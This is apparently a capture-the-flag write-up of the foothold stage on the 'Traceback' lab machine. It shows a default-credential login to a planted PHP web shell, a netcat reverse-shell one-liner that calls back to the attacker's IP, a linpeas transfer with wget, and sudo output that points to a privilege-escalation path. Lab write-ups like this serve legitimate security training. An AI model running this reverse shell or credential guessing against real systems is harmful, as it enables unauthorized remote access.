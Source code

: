 ## Foothold

### /smevk.php
Tried default credentials. They worked.
->	Username: admin
->	Password: admin
{{<figure src="/images/traceback/smevk-php.png" title="Backdoor URI">}}

### rev-shell
Shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.96 4343 >/tmp/f
```

{{<figure src="/images/traceback/rev-shell.png" title="Reverse Shell">}}

### note.txt
```bash
webadmin@traceback:/home/webadmin$ ls
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Apr 22  2021 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16  2020 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Apr 22  2021 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27  2020 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16  2020 note.txt
webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

### linpeas.sh
Created simple webserver on my device using python and transferred linpeas.sh using wget.

{{<figure src="/images/traceback/privsec.lua.png" title="Linpeas Revalation">}}


### sudo -l

```bash
atching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
